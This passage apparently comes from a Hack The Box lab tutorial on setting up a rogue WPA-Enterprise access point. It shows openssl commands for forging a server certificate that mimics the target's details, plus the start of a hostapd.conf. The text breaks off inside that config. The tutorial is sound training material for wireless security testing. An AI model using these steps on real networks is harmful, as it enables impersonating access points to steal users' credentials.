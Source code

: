 </code></pre>
<p>When generating our x509 certificates, we should aim to make the information as similar as possible to that of the actual target. If we have access to a certificate from the internal network, using it would be preferable to self-signed certificates, as it may be trusted by the client devices.</p>
<p>At this stage, we need to generate our server certificate and private key, as specified in the hostapd.conf file. This can be done with the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ openssl req -newkey rsa:2048 -nodes -days 100 -keyout server-key.pem -out server-key.pem

Ignoring -days without -x509; not generating a certificate
.....+......+.....+....+++++++++++++++++++++++++++++++++++++++*......+....+...+..+.+..+++++++++++++++++++++++++++++++++++++++*.+..+.......+..+......+...+.+...+........+...+....+...+.....+....+...+.....+.+..+...+....+.......
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:California
Locality Name (eg, city) []:San Fransisco
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Hack The Box
Organizational Unit Name (eg, section) []:HTB
Common Name (e.g. server FQDN or YOUR name) []:HTB
Email Address []:<a class="__cf_email__" data-cfemail="d4b5b0b9bdba94bca0b6fab7bbb9" href="/cdn-cgi/l/email-protection">[email protected]</a>

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:challenge1234
An optional company name []:
</code></pre>
<p>We should ensure that the information in our new x509 certificate matches the details from the previous certificate, as this will make our attack appear more legitimate. Additionally, the challenge password used should match the one specified in the .eap_user file. Finally, we need to generate the x509 certificate for the server. This can be done with the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem

Certificate request self-signature ok
subject=C=US, ST=California, L=San Fransisco, O=Hack The Box, OU=HTB, CN=HTB, <a class="__cf_email__" data-cfemail="294c44484045684d4d5b4c5a5a14484d44404769415d4b074a4644" href="/cdn-cgi/l/email-protection">[email protected]</a>
</code></pre>
<hr/>
<h3>3. Host the Rogue AP</h3>
<p>Now, we finally host our rogue enterprise access point. We can use tools like <a href="https://github.com/sensepost/hostapd-mana">Hostapd-mana</a> or <a href="https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe">hostapd-wpe</a> to set up the rogue AP and replicate the target network's behavior.</p>
<p>To get started, we need to create a hostapd.conf file with the following content:</p>
<pre><code class="language-configuration"># 802.11 Options
interface=wlan1
ssid=HTB-Wireless
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1
